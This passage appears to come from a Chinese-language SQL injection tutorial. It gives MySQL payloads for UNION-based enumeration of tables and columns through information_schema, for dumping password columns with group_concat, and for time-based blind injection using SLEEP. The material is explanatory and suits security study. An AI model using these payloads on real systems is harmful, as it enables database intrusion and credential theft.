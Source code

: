 或者直接令`table_schema=database()`。

```mysql
select id,username,passwd from users where id='1'
union select 1,group_concat(table_name),3 from information_schema.columns where table_schema=database()--
```

也可以使用`limit i,1`逐个破解表名，i从0开始；`substr(表名,j,1)`逐个破解数据表名的字符，j从1开始。

```mysql
select * from users where id='1' 
and if(substr((select table_name from information_schema.tables where table_schema='数据库名' limit 0,1),1,1)='a',SLEEP(3),1)
```

+ **爆列**

注意爆列时，where子句中需要将table_schema和table_name都作为条件。

```mysql
select id,username,passwd from users where id='1'
union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='数据库名' and table_name='表名'--
```

+ **爆数据**

获得数据库名、表名、列名后，

```mysql
select * from users where id='1' union select 1,group_concat(passwd),3 from 表名
```

```mysql
select * from users where id='1' union select 1,group_concat(0x7e,passwd,0x7e),3 from 表名
```

```mysql
select * from users where id='1' union select 1,concat_ws(0x7e,id,username,passwd),3 from 表名-- 
```



## 4. SQL注入基本类型

### 4.1 盲注

#### 4.1.1 时间盲注

关键函数：sleep()、benchmark()、get_lock()等



**（1）sleep()**

判断注入点

```mysql
select * from users where id='1' and sleep(3)-- 
```
